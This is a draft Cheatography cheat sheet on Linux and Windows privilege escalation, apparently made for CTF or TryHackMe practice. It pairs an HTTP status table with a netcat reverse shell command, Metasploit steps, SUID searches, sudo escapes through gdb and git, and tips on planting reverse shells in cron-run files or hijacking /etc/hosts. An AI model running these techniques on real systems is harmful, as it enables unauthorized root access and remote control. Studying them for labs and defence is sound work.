 

    

1. [Home](https://cheatography.com/)>
2. [Programming](https://cheatography.com/programming/)>
3. [Security Cheat Sheets](https://cheatography.com/tag/security/)

# Linux | Windows Privilege Escalation Cheat Sheet   (DRAFT) by [blacklist_](http://www.cheatography.com/blacklist/)

Journey of getting a root.

This is a **draft** cheat sheet. It is a work in progress and is not finished yet.

### HTTP Status Codes

|     |     |
| --- | --- |
| Code (Gobuster) | Status |
| 2XX | **Success<br>{fa-bolt}} This class of status codes indicates the action requested by the client was received, understood and accepted. |
| 3XX | **Redirection<br>** This class of status code indicates the client must take additional action to complete the request. |
| 4XX | ** Client Error<br>** This class of status code is intended for situations in which the error seems to have been caused by the client. |
| 5xx | ** Server Error |

[https:­//w­ww.r­es­tap­itu­tor­ial.co­m/h­ttp­sta­tus­cod­es.html](https://www.restapitutorial.com/httpstatuscodes.html)

### Reverse Shell

|     |     |
| --- | --- |
| Usage | Syntax |
| Netcat | nc -e /bin/sh <ip­add> <po­rt> (target) |
|     | nc -lvp <po­rt> (host) |
| msfconsole | Power up metasploit |
| use exploi­t/<­pat­h> | specify exploit to use |
| show options | set the specific options |
| show target (set target no) | set the specific target like power shell, PHP, python |
| connect to rdp service using rdp client<br>Windows | 3389:RDP<br>**start Remmina to access then enter ip address then enter userna­me,­domain and password |
| ** Linux Privilege Escalation | **  **  **  ** |
| ** SUID binary | ** find / -perm -u=s -type f 2>/­­de­v­/null<br>** If you want to escalate privilege to another user search files that user owns there might be a cronjob that executes his file and we can place reverse shell<br>** find / -type d -group <us­er_­nam­e> 2>/­dev­/null/ |
| ** CronJobs | ** Trasnfer pspy64 through python server to find cronjobs |
| ** Sudo -l | ** It show you what exact command you are authorized to use |
| ** Suid binary Automation Script | ** SUID3N­UM.py ** Custom binary can be opened by reversing them using Ghidra |
| Add machine IP to /etc/hosts | ** echo 10.10.1­94.183 spooky­sec.local >> /etc/hosts |
| Cron Jobs (time-­based job scheduler) | ** Mostly we try to add our reverse shell into the file and CRON jobs executes the files and we get the reverse shell<br> ** We can even try to change etc/hosts if the cron is calling out to that IP we can change it and open a HTTP server on out machine and let him execute the script with our own reverse shell |
| Exploiting sudo -l | ** commands - /var/w­ww/gdb as www-data<br> ** escalate privilege to a user thirtytwo then<br> ** use GTFO ** sudo -u thirtytwo /var/w­ww/gdb -nx -ex '!sh' -ex quit |
| Exploiting sudo -l | ** (d4rckh) No paaswd: /usr/b­it/git<br>** We have a user who can exec commands on that path<br>** execute command to escalate<br>** sudo -u d4rckh /usr/b­in/git -p help config<br>** !/bin/sh |
| Escalate privilege via cronjob of a python script | **  [https:­//b­log.ra­zrs­ec.u­k/­try­hac­kme­-ta­rtarus/](https://blog.razrsec.uk/tryhackme-tartarus/) |